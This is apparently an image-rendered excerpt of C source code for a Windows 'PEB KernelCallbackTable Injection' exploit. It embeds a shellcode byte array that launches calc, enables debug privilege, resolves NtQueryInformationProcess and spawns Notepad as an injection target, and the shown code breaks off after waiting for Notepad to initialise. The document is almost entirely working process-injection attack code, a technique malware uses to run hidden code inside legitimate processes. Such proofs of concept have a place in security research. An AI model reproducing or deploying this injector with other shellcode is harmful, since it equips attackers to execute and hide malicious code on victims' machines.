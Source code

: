 ```c
unsigned char payload[] = "\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9\x57\xff\xff\xff\x5d\x48\xba\x01\x00\x00\x00\x00\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41\xba\x31\x8b\x6f\x87\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5\x63\x61\x6c\x63\x00";
SIZE_T shellcodeSize = sizeof( payload ) - 1;
SIZE_T bytesRead = 0;

int main()
{
    printf( COLOR_YELLOW_BOLD "[*] Initializing exploit...\n" COLOR_RESET );

    EnableDebugPrivilege();
    LoadNtQueryInformationProcess();

    if ( !NtQueryInformationProcess )
    {
        printf( COLOR_RED_BOLD "\t[-] NtQueryInformationProcess is NULL. Exiting...\n" COLOR_RESET );
        return -1;
    }

    printf( COLOR_YELLOW_BOLD "[*] Starting PEB KernelCallbackTable Injection Exploit...\n\n" COLOR_RESET );

    // Step 1: Create a new Notepad process (ensure it is visible to the user)
    PROCESS_INFORMATION pi = { 0 };
    STARTUPINFO si = { sizeof( STARTUPINFO ) };
    si.dwFlags = STARTF_USESHOWWINDOW;
    si.wShowWindow = SW_SHOW;

    printf( COLOR_YELLOW_BOLD "\t[*] Creating new Notepad process...\n" COLOR_RESET );
    if ( !CreateProcess(
        L"C:\\Windows\\System32\\notepad.exe",
        NULL,
        NULL,
        NULL,
        FALSE,
        CREATE_NEW_CONSOLE,
        NULL,
        NULL,
        &si,
        &pi
    ) )
    {
        printf( COLOR_RED_BOLD "\t[-] Failed to create Notepad process. Error: %d\n" COLOR_RESET, GetLastError() );
        return -1;
    }

    printf( COLOR_GREEN_BOLD "\t[+] Notepad process created successfully. PID: %d\n" COLOR_RESET, pi.dwProcessId );

    // Step 2: Wait for the new process to initialize
    printf( COLOR_YELLOW_BOLD "\t[*] Waiting for Notepad initialization...\n" COLOR_RESET );
    WaitForInputIdle( pi.hProcess, 1000 );
```